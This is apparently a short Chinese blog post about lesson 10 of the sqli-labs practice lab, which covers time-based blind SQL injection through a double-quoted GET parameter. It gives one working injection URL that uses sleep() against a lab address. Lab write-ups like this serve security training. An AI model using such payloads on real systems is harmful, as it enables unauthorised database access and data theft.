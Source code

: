 ```yaml
---
title: sqli-labs-lession 10 GET双引号基于时间盲注
date: 2018-09-26 21:24:52
tags:
categories: sql注入
---
```

# sqli-labs-lession 10 GET双引号基于时间盲注 #
---

## 登录界面 ##

![1](/img/sql/Lesson-10/1.png)

## 注入过程 ##

题目已经提示我们了,跟Lesson-9一样是时间盲注,只是SQL语句中变量的闭合使用了双引号。

判断一下类型,其他的和Lesson-9步骤没有区别。

`http://10.60.250.151/sqlilabs/Less-10/?id=1" and if(1,sleep(60),null)%23`

![2](/img/sql/Lesson-10/2.png)

{% post_link sqli-labs-lession-9-GET单引号基于时间盲注 点击查看Lesson-9%}